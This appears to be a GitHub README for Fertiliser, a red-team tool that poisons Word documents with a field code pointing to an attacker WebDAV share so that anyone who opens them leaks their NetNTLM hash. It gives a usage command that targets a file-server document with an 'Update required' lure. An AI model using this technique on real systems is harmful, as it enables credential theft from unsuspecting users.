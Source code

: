 # Fertiliser
Author: @domchell

Fertiliser is a project to poison office documents (current only docx) with a malicious field code that points to a WebDav share.
When the user opens the document, they will inadvertently leak their NetNTLM hash to Farmer.

One thing to be aware of is once the document is poisoned, it will trigger a prompt to the user stating that the document contains links.
Regardless of whether the user selects to open the link, the hash will still be leaked.

Usage:
```
Fertiliser.exe <Path> <WebDAV Path> <Field Comment>
Example: Fertiliser.exe \\fileserver\important.docx http://workstation:8888/foo "Update required"
```